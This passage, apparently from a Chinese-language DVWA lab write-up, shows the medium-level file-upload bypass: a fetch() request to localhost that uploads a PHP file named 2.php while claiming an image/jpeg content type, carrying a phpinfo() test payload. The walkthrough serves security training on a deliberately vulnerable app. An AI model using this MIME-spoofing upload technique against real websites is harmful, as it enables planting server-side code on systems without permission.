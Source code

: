 1. `Content-Type` 改成 `image/jpeg`。
2. 文件名改成 `2.php`，以区别于 Low 难度下的 `1.php`

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"2.php\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

然后贴回浏览器控制台执行。

![image-20220426163242992](image-20220426163242992.png)

成功。

### High难度
